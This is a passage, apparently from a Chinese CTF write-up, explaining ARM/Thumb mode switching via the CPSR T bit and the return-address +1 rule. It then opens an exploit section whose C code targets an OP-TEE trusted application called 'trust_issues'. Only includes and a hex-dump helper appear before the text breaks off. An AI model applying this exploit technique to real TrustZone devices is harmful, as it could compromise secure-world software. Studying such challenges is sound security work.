 **CPU工作在哪种模式由CPSR程序状态寄存器决定**：

<img src="./images/image-20250608094215561.png" alt="image-20250608094215561" style="zoom: 50%;" />

由于 ARM 和 Thumb 模式指令长度不同，需要通过某种方式来正确处理返回地址。无论是ARM还是Thumb，指令地址都是2字节对齐的，地址的最低位就可以被复用为工作状态判断标志（用以设置CPSR的T位），因此当ARM下调用`BX/BLX`指令或在Thumb下调用`POP {...,pc}`指令进行跳转时，**如果目标地址运行在 Thumb 模式，都需要将返回地址加 1**。

# Exp

```c
#include <ctype.h>
#include <err.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* OP-TEE TEE client API (built by optee_client) */
#include <tee_client_api.h>

/* For the UUID (found in the TA's h-file(s)) */
#include <trust_issues_ta.h>

void hex_dump(void* buf, size_t len) {
    uint32_t *p = (uint32_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;
    if (len >= 0x10) {
        for (; (uint8_t *)(p+4) <= end; p+=4) {
            printf("0x%08x 0x%08x 0x%08x 0x%08x\n", p[0], p[1], p[2], p[3]);
```